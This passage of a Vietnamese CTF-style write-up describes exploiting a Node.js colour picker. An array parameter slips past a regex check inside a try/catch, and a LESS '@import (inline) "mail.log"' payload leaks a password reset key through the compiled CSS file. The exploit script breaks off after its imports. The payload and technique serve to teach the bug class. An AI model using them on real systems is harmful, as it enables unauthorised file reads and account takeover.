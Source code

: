 ```js
    }

    css += `@${key}:` + colorDict[key] + ";";

  }

  css = css + "body{ background-color: @bgcolor; color: @color; }";

  return css;
}
```
Ở đây nó sẽ lấy cặp key của chúng ta sau đó đưa vào try catch kiểm tra regex phải bắt đầu dấu # và nếu khác regex sẽ báo false và sau đó ngược lại nó đưa vào css  với key chúng ta chọn và sau khi đó <br>
```js
 if (css == false) return res.sendStatus(500);

  less.render(css.toString(), (error, output) => {
  
    if(error){
      return res.send(`Less Compile Error`);
    }

    fs.writeFileSync('./static/image.css', output['css']);
    
    return res.send(`ColorPicker Done`);
  
  })
```
nó sẽ ghi file của chúng ta ra /static/image.css sau đó chúng ta truy cập lấy được màu sắc với chúng ta pick ở đây đặc biệt tôi phát hiện nó sử dụng <b>less.render</b> ra biên dịch và sau khi tìm kiếm tôi phát hiện có lỗ hổng css injection từ less bằng cách đó chúng ta cần tìm cách đưa vào shell để đọc file mail.log đúng ko vậy bằng cách nào chúng ta có thể chèn vào ở phần màu sắc <br>
```note
colorPicker làm: css += \@${key}:` + colorDict[key] + ";"`.
Trước đó gọi colorDict[key].match(...) trong try { ... } catch(error) {}.
Nếu colorDict[key] là mảng (ví dụ bgColor[]=...), thì match không tồn tại → gọi sẽ ném lỗi → bị catch nuốt đi → không trả về false → hàm tiếp tục chèn nguyên giá trị mảng (dùng toString() → nối các phần bằng ,) vào CSS.
```
Bằng cách đó tôi truyền 1 kí tự đặc biệt bằng cách gửi 1 phần tử mảng kết quả trong LESS trở thành: <br>
```note
bgColor[] = ;@import (inline) "mail.log";
fontColor = #ffffff
```
Khi qua colorPicker, chuỗi CSS tạo ra sẽ như: <br>
```note
@bgcolor:#000000;@import (inline) "mail.log";;
@color:#ffffff;
body{ background-color: @bgcolor; color: @color; }
```
<img width="949" height="528" alt="image" src="https://github.com/user-attachments/assets/0eb938a6-e456-4291-be5c-1da11f92c96a" /> <br>
Chúng ta đã inject thành công sau đó truy cập /image.css để get reset_key đã reset <br>
<img width="413" height="139" alt="image" src="https://github.com/user-attachments/assets/4e30b836-a564-4f6c-8a95-60bc8c21c96e" /> <br>
Đã leak được thành công. <br>
## Khai thác
Để quá trình tự động hóa tôi đã viết 1 script khai thác: <br>
```py
import requests
import re

```